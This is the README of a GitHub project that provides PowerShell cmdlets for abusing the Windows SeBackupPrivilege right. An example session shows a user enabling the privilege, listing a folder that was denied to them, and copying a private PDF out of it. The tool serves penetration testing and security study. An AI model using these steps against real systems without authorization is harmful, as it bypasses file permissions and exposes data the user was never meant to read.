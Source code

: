 

    

# [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='44'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='672' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/giuliano108/SeBackupPrivilege#sebackupprivilege)SeBackupPrivilege

On Windows, if a user has the "[Back up files and directories](http://technet.microsoft.com/en-us/library/cc787956.aspx)" right, he gets assigned the `SE_BACKUP_NAME`/`SeBackupPrivilege`  [privilege](http://msdn.microsoft.com/en-us/library/windows/desktop/bb530716.aspx). Such privilege is disabled by default but when switched on it allows the user to access directories/files *that he doesn't own* or *doesn't have permission to*. In MSDN's own words:

> This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.

In order to exploit `SeBackupPrivilege` you have to:

- Enable the privilege.

This alone lets you traverse (`cd` into) any1 directory, local or remote, and list (`dir`, `Get-ChildItem`) its contents.

- If you want to read/copy data out of a "normally forbidden" folder, you have to act as a backup software. The shell `copy` command won't work; you'll need to open the source file manually using `CreateFile` making sure to specify the `FILE_FLAG_BACKUP_SEMANTICS` flag.

This library exposes three PowerShell CmdLets that do just that.

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='45'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='685' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/giuliano108/SeBackupPrivilege#example-usage)Example usage

	PS C:\scripts> Import-Module .\SeBackupPrivilegeUtils.dll
	PS C:\scripts> Import-Module .\SeBackupPrivilegeCmdLets.dll
	PS C:\scripts> Get-SeBackupPrivilege # ...or whoami /priv | findstr Backup
	SeBackupPrivilege is disabled
	PS C:\scripts> dir E:\V_BASE
	Get-ChildItem : Access to the path 'E:\V_BASE' is denied.
	At line:1 char:4
	+ dir <<<<  E:\V_BASE
	    + CategoryInfo          : PermissionDenied: (E:\V_BASE:String) [Get-ChildItem], UnauthorizedAccessException
	    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

	PS C:\scripts> Set-SeBackupPrivilege
	PS C:\scripts> Get-SeBackupPrivilege
	SeBackupPrivilege is enabled
	PS C:\scripts> dir E:\V_BASE # ...having enabled the privilege, this now works

	    Directory: E:\V_BASE

	Mode                LastWriteTime     Length Name
	----                -------------     ------ ----
	d----        18/07/2013     13:04            Private

	PS C:\scripts> cd E:\V_BASE\Private
	PS E:\V_BASE\Private> dir

	    Directory: E:\V_BASE\Private

	Mode                LastWriteTime     Length Name
	----                -------------     ------ ----
	-----        05/07/2013     12:29     306435 report.pdf

	PS E:\V_BASE\Private> Copy-FileSeBackupPrivilege .eport.pdf c:\temp\x.pdf -Overwrite
	Copied 306435 bytes

	PS E:\V_BASE\Private>

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='46'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='687' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/giuliano108/SeBackupPrivilege#buildingmisc)Building/misc

The following dlls are compiled for x64, .NET Framework 2.0 . If they don't match your environment, you'll have to build your own; just import the project into [SharpDevelop](http://www.icsharpcode.net/opensource/sd/) and you should be good to go.

- [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)
- [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)

These resources have been extremely helpful when putting this stuff together:

- Stack Overflow: [How to detect if "Debug Programs" Windows privilege is set?](http://stackoverflow.com/questions/4880197/how-to-detect-if-debug-programs-windows-privilege-is-set)
- Stack Overflow: [Setting size of TOKEN_PRIVILEGES.LUID_AND_ATTRIBUTES array returned by GetTokenInformation](http://stackoverflow.com/questions/4349743/setting-size-of-token-privileges-luid-and-attributes-array-returned-by-gettokeni)
- [Adjusting Token Privileges in PowerShell](http://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/)
- [PInvoke.net](http://www.pinvoke.net/)

* * *

[1] Explicit denies should still block you, though...
